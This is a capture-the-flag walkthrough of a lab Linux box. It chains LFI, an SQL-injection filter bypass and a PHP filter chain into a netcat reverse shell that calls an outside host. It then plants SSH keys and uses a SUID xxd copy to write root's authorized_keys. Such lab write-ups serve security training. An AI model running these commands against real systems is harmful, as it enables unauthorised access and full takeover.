# Cheese CTF

#Linux #WebExploitation #PHP #PrivEsc #LFI
## Recon

I started running nmap and I got the result bellow. We can't trust this result because it seems that all the ports are open. In this case, I will try to identify it manually.

```
$ nmap -sV -sS 10.65.129.106 --open
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-18 07:45 -0500
Stats: 0:02:20 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 17.30% done; ETC: 07:58 (0:10:26 remaining)
Nmap scan report for 10.65.129.106
Host is up (0.13s latency).

PORT      STATE SERVICE            VERSION
1/tcp     open  tcpmux?
3/tcp     open  compressnet?
4/tcp     open  unknown
6/tcp     open  unknown
7/tcp     open  echo?
9/tcp     open  discard?
13/tcp    open  daytime?
17/tcp    open  qotd?
19/tcp    open  chargen?
20/tcp    open  ftp-data?
21/tcp    open  ftp?
22/tcp    open  ssh                OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
23/tcp    open  telnet?
24/tcp    open  priv-mail?
25/tcp    open  smtp?
26/tcp    open  rsftp?
30/tcp    open  unknown
32/tcp    open  unknown
33/tcp    open  dsp?
37/tcp    open  time?
42/tcp    open  nameserver?
43/tcp    open  whois?
49/tcp    open  tacacs?
53/tcp    open  domain?
70/tcp    open  sip                (SIP end point; Status: 200 OK)
79/tcp    open  irc                InspIRCd
80/tcp    open  http               Apache httpd 2.4.41 ((Ubuntu))
						...
```

Obviously, the first port I tried was 80. As we can see, it's a website.

<figure><figcaption></figcaption></figure>

Fuzzing for files I found `messages.html`. 

```
ffuf -u http://10.65.129.106/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.129.106/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.php       [Status: 200, Size: 834, Words: 220, Lines: 29, Duration: 222ms]
index.html      [Status: 200, Size: 1759, Words: 559, Lines: 60, Duration: 130ms]
.htaccess       [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
style.css       [Status: 200, Size: 705, Words: 151, Lines: 58, Duration: 128ms]
.html           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
.htpasswd       [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
.htm            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 128ms]
.htpasswds      [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
users.html      [Status: 200, Size: 377, Words: 61, Lines: 19, Duration: 128ms]
.htgroup        [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
wp-forum.phps   [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
orders.html     [Status: 200, Size: 380, Words: 61, Lines: 19, Duration: 127ms]
.htaccess.bak   [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
.htuser         [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
.ht             [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
.htc            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
messages.html   [Status: 200, Size: 448, Words: 59, Lines: 19, Duration: 128ms]
```

 

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

I was able to confirm that it is vulnerable to LFI by reading the `/etc/passwd` file.

<figure><figcaption></figcaption></figure>

Reading the `login.php` file, I got the following result. 

<figure><figcaption></figcaption></figure>

*I didn't mention it before, but there is a login page and I tested manually (without any payload list) and was unable to bypass authentication with some SQL Injection payload. Reading the source code, we can see that there is a filter that blocks the injection 'OR', 'or', 'Or', and 'oR'. This can be bypassed using `||`, so I was able to login successfully and access the `messages.html` file in the same way.*

```php
$ echo "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+CiAgICA8dGl0bGU+TG9naW4gUGFnZTwvdGl0bGU+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9ImxvZ2luLmNzcyI+CjwvaGVhZD4KPGJvZHk+CiAgICA8ZGl2IGNsYXNzPSJsb2dpbi1jb250YWluZXIiPgogICAgICAgIDxoMT5Mb2dpbjwvaDE+CiAgICAgICAgCiAgICAgICAgPGZvcm0gbWV0aG9kPSJQT1NUIj4KICAgICAgICAgICAgPGRpdiBjbGFzcz0iZm9ybS1ncm91cCI+CiAgICAgICAgICAgICAgICA8bGFiZWwgZm9yPSJ1c2VybmFtZSI+VXNlcm5hbWU8L2xhYmVsPgogICAgICAgICAgICAgICAgPGlucHV0IHR5cGU9InRleHQiIGlkPSJ1c2VybmFtZSIgbmFtZT0idXNlcm5hbWUiIHJlcXVpcmVkPgogICAgICAgICAgICA8L2Rpdj4KICAgICAgICAgICAgPGRpdiBjbGFzcz0iZm9ybS1ncm91cCI+CiAgICAgICAgICAgICAgICA8bGFiZWwgZm9yPSJwYXNzd29yZCI+UGFzc3dvcmQ8L2xhYmVsPgogICAgICAgICAgICAgICAgPGlucHV0IHR5cGU9InBhc3N3b3JkIiBpZD0icGFzc3dvcmQiIG5hbWU9InBhc3N3b3JkIiByZXF1aXJlZD4KICAgICAgICAgICAgPC9kaXY+CiAgICAgICAgICAgIDxidXR0b24gdHlwZT0ic3VibWl0Ij5Mb2dpbjwvYnV0dG9uPgogICAgICAgIDwvZm9ybT4KICAgICAgICAKICAgIDwvZGl2PgogICAgPD9waHAKLy8gUmVwbGFjZSB0aGVzZSB3aXRoIHlvdXIgZGF0YWJhc2UgY3JlZGVudGlhbHMKJHNlcnZlcm5hbWUgPSAibG9jYWxob3N0IjsKJHVzZXIgPSAiY29tdGUiOwokcGFzc3dvcmQgPSAiVmVyeUNoZWVzeVBhc3N3b3JkIjsKJGRibmFtZSA9ICJ1c2VycyI7CgovLyBDcmVhdGUgYSBjb25uZWN0aW9uIHRvIHRoZSBkYXRhYmFzZQokY29ubiA9IG5ldyBteXNxbGkoJHNlcnZlcm5hbWUsICR1c2VyLCAkcGFzc3dvcmQsICRkYm5hbWUpOwoKLy8gQ2hlY2sgdGhlIGNvbm5lY3Rpb24KaWYgKCRjb25uLT5jb25uZWN0X2Vycm9yKSB7CiAgICBlY2hvICRjb25uLT5jb25uZWN0X2Vycm9yOwogICAgZGllKCJDb25uZWN0aW9uIGZhaWxlZDogIiAuICRjb25uLT5jb25uZWN0X2Vycm9yKTsKCn0KCi8vIEhhbmRsZSBmb3JtIHN1Ym1pc3Npb24KaWYgKCRfU0VSVkVSWyJSRVFVRVNUX01FVEhPRCJdID09ICJQT1NUIikgewogICAgJHVzZXJuYW1lID0gJF9QT1NUWyJ1c2VybmFtZSJdOwogICAgJHBhc3MgPSAkX1BPU1RbInBhc3N3b3JkIl07CiAgICBmdW5jdGlvbiBmaWx0ZXJPclZhcmlhdGlvbnMoJGlucHV0KSB7CiAgICAgLy9Vc2UgY2FzZS1pbnNlbnNpdGl2ZSByZWd1bGFyIGV4cHJlc3Npb24gdG8gZmlsdGVyICdPUicsICdvcicsICdPcicsIGFuZCAnb1InCiAgICAkZmlsdGVyZWQgPSBwcmVnX3JlcGxhY2UoJy9cYltvT11bclJdXGIvJywgJycsICRpbnB1dCk7CiAgICAKICAgIHJldHVybiAkZmlsdGVyZWQ7Cn0KICAgICRmaWx0ZXJlZElucHV0ID0gZmlsdGVyT3JWYXJpYXRpb25zKCR1c2VybmFtZSk7CiAgICAvL2VjaG8oJGZpbHRlcmVkSW5wdXQpOwogICAgLy8gSGFzaCB0aGUgcGFzc3dvcmQgKHlvdSBzaG91bGQgdXNlIGEgc3Ryb25nZXIgaGFzaGluZyBhbGdvcml0aG0pCiAgICAkaGFzaGVkX3Bhc3N3b3JkID0gbWQ1KCRwYXNzKTsKICAgIAogICAgCiAgICAvLyBRdWVyeSB0aGUgZGF0YWJhc2UgdG8gY2hlY2sgaWYgdGhlIHVzZXIgZXhpc3RzCiAgICAkc3FsID0gIlNFTEVDVCAqIEZST00gdXNlcnMgV0hFUkUgdXNlcm5hbWU9JyRmaWx0ZXJlZElucHV0JyBBTkQgcGFzc3dvcmQ9JyRoYXNoZWRfcGFzc3dvcmQnIjsKICAgICRyZXN1bHQgPSAkY29ubi0+cXVlcnkoJHNxbCk7CiAgICAkc3RhdHVzID0gIiI7CiAgICBpZiAoJHJlc3VsdC0+bnVtX3Jvd3MgPT0gMSkgewogICAgICAgIC8vIEF1dGhlbnRpY2F0aW9uIHN1Y2Nlc3NmdWwKICAgICAgICAkc3RhdHVzID0gIkxvZ2luIHN1Y2Nlc3NmdWwhIjsKICAgICAgICAgaGVhZGVyKCJMb2NhdGlvbjogc2VjcmV0LXNjcmlwdC5waHA/ZmlsZT1zdXBlcnNlY3JldGFkbWlucGFuZWwuaHRtbCIpOwogICAgICAgICBleGl0OwogICAgfSBlbHNlIHsKICAgICAgICAvLyBBdXRoZW50aWNhdGlvbiBmYWlsZWQKICAgICAgICAgJHN0YXR1cyA9ICJMb2dpbiBmYWlsZWQuIFBsZWFzZSBjaGVjayB5b3VyIHVzZXJuYW1lIGFuZCBwYXNzd29yZC4iOwogICAgfQp9Ci8vIENsb3NlIHRoZSBkYXRhYmFzZSBjb25uZWN0aW9uCiRjb25uLT5jbG9zZSgpOwo/Pgo8ZGl2IGlkID0gInN0YXR1cyI+PD9waHAgZWNobyAkc3RhdHVzOyA/PjwvZGl2Pgo8L2JvZHk+CjwvaHRtbD4K" | base64 -d 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
    <link rel="stylesheet" href="login.css">
</head>
<body>
    <div class="login-container">
        <h1>Login</h1>
        
        <form method="POST">
            <div class="form-group">
                <label for="username">Username</label>
                <input type="text" id="username" name="username" required>
            </div>
            <div class="form-group">
                <label for="password">Password</label>
                <input type="password" id="password" name="password" required>
            </div>
            <button type="submit">Login</button>
        </form>
        
    </div>
    <?php
// Replace these with your database credentials
$servername = "localhost";
$user = "comte";
$password = "VeryCheesyPassword";
$dbname = "users";

// Create a connection to the database
$conn = new mysqli($servername, $user, $password, $dbname);

// Check the connection
if ($conn->connect_error) {
    echo $conn->connect_error;
    die("Connection failed: " . $conn->connect_error);

}

// Handle form submission
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST["username"];
    $pass = $_POST["password"];
    function filterOrVariations($input) {
     //Use case-insensitive regular expression to filter 'OR', 'or', 'Or', and 'oR'
    $filtered = preg_replace('/\b[oO][rR]\b/', '', $input);
    
    return $filtered;
}
    $filteredInput = filterOrVariations($username);
    //echo($filteredInput);
    // Hash the password (you should use a stronger hashing algorithm)
    $hashed_password = md5($pass);
    
    
    // Query the database to check if the user exists
    $sql = "SELECT * FROM users WHERE username='$filteredInput' AND password='$hashed_password'";
    $result = $conn->query($sql);
    $status = "";
    if ($result->num_rows == 1) {
        // Authentication successful
        $status = "Login successful!";
         header("Location: secret-script.php?file=supersecretadminpanel.html");
         exit;
    } else {
        // Authentication failed
         $status = "Login failed. Please check your username and password.";
    }
}
// Close the database connection
$conn->close();
?>
<div id = "status"><?php echo $status; ?></div>
</body>
</html>
```


I couldn't infect the logs to get a RCE, so I found another way to do it, using `PHP Filters Chain`.





I can run this script and it will be generated the code.

<figure><figcaption></figcaption></figure>

```
$ python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.130.101 1337 >/tmp/f"); ?>
```

Listening port `1337`, I got a shell!

<figure><figcaption></figcaption></figure>

I found the flag but I couldn't read it. 

<figure><figcaption></figcaption></figure>

Let's try to login as user `comte`. I will generate a public and a private key. We need to grant the permission to the private key and copy the public key to `authorized_keys` files on target.

<figure><figcaption></figcaption></figure>

```
www-data@ip-10-65-134-90:/home/comte/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJENiApYHraj7/TLNiNWh6xYlvQDRyFs7ALn29PJdnRX user@kali' >> authorized_keys
```

I was able to login successfully.

<figure><figcaption></figcaption></figure>

Reading the `user.txt` flag.

<figure><figcaption></figcaption></figure>

Checking for files that I could run as sudo, I found the following:

<figure><figcaption></figcaption></figure>

Look at the contents of the files, we can see that `exploit.service` copies the binary `/usr/bin/xxd` to `/opt` granting execution permission and that the SUID bit is set, which means that normal users are allowed to execute it as root.

<figure><figcaption></figcaption></figure>

Also I noticed that we have permission to edit `exploit.timer` file, that's interesting.

<figure><figcaption></figcaption></figure>


```bash
comte@ip-10-65-183-20:/etc/systemd/system$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCgduUG+SJrSVvo/7J/CKxrdjKCj9/dyjVfi065XjbY2Fq/Q/2Fju47MhRv5HC6gYwQnDQiv2ICbrxx/889lr/8SQoL4e03kqBDZJ9UEu9oixtuYDME01tZChj7wWxPomn1QtaLKNJ94wU+LdI+8rVRBDNQ4FFSXYZ29Sw13Iah3wZDdT0ZqKLHisdUwknUD2P21jqRJLI/dgXwo63q+zxdsU4PP8oikwPYPt8IvrIHtjPuwjjVDT7DUb0oTKgNprSyiSHXwqF24LZxtG7oAFMoKtGwgV1GylZyvqt0wX87aJmy+4QFKtfWq67T/mftFSN3yQSNXzMgJOb3JYL4qzNM4syTgmNLxCiLGinNCez0+hNyiLuIZH9jkaqFooxSAkqyMbAG8Pv/j5iowgPYZlM6wJykB5kQwsLfWtrqvuOD/+iR9l8Yg2YuEb+srMRuKeamkWzYV3FxQNukxaG/jQUFq0Ixe/H1fk5gjj4qsd1Fly7wSImb9vUCDK4tf6wBBaU= user@kali" | /opt/xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```